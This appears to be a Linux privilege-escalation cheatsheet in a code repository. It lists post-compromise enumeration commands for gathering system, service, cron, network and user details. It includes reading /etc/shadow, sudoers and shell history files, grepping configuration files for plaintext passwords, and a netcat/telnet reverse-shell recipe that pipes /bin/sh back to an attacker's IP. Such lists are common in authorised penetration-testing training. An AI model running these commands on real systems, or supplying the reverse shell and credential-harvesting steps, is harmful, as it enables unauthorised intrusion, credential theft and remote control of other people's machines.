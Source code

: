 # 𝙏𝙝𝙚 𝙇𝙞𝙣𝙪𝙭 𝙋𝙧𝙞𝙫𝙞𝙡𝙚𝙜𝙚 𝙀𝙨𝙘𝙖𝙡𝙖𝙩𝙞𝙤𝙣 𝘾𝙝𝙚𝙖𝙩𝙨𝙝𝙚𝙚𝙩
𝙏𝙝𝙚 𝙇𝙞𝙣𝙪𝙭 𝙋𝙧𝙞𝙫𝙞𝙡𝙚𝙜𝙚 𝙀𝙨𝙘𝙖𝙡𝙖𝙩𝙞𝙤𝙣 𝘾𝙝𝙚𝙖𝙩𝙨𝙝𝙚𝙚𝙩



Operating System
What's the distribution type? What version?


cat /etc/issue

cat /etc/*-release

cat /etc/lsb-release




What's the kernel version? Is it 64-bit?


cat /proc/version

uname -a

uname -mrs

rpm -q kernel

dmesg | grep Linux

ls /boot | grep vmlinuz-


What can be learnt from the environmental variables?

cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set

Is there a printer?

lpstat -a

Applications & Services

What services are running? Which service has which user privilege?

ps aux
ps -ef
top
cat /etc/services

Which service(s) are been running by root? Of these services, which are vulnerable

ps aux | grep root
ps -ef | grep root

What applications are installed? What version are they? Are they currently running?

ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/

Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?

cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

What jobs are scheduled?

crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root

Any plain text usernames and/or passwords?

grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

Communications & Networking
What NIC(s) does the system have? Is it connected to another network?

/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network

What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?

cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname

What other users & hosts are communicating with the system?

lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w

Whats cached? IP and/or MAC addresses

arp -e
route
/sbin/route -nee

Is packet sniffing possible? What can be seen? Listen to live traffic

tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]

Have you got a shell? Can you interact with the system?

nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [attackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!

Confidential Information & Users
Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?

id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l

What sensitive files can be found?

cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/

Anything "interesting" in the home directorie(s)? If it's possible to access

ls -ahlR /root/
ls -ahlR /home/

Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords

cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg

What has the user being doing? Is there any password in plain text? What have they been edting?

cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history

What user information can be found?

cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root

